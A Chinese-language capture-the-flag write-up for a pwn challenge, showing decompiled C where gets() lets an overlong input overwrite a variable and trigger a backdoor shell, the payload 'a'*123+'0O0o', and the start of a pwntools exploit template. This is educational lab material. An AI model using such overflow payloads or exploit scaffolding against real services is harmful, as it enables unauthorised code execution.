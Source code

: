 反汇编得到源码如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char s; // [esp+0h] [ebp-ACh]
  char v5; // [esp+7Bh] [ebp-31h]
  unsigned int v6; // [esp+A0h] [ebp-Ch]
  int *v7; // [esp+A4h] [ebp-8h]

  v7 = &argc;
  v6 = __readgsdword(0x14u);
  alarm(8u);
  setbuf(_bss_start, 0);
  memset(&s, 0, 160u);
  puts("Let's 0O0o\\0O0!");
  gets(&s);
  if ( !memcmp("0O0o", &v5, 7u) )
    backdoor();
  return 0;
}
```

程序中存在后门`backdoor()`，开启后门的条件是变量`v5`等于`"0O0o"`，不难看出变量`s`其后便是变量`v5`，而`gets(&s)`由于没有检查`s`的长度，这将导致向`s`中输入过长的字符串时，覆盖掉变量`v5`的值，调试一下得到偏移量为123，所以只要输入`'a'*123+'0O0o'`即可启动后门，拿到shell。

#### exp

虽然没啥写脚本的必要，但是我写了个[脚本](https://github.com/TaQini/ctf/tree/master/script)，用来自动生成exp模板，就当是展示一下效果吧：

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './Hard_AAAAA'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))
```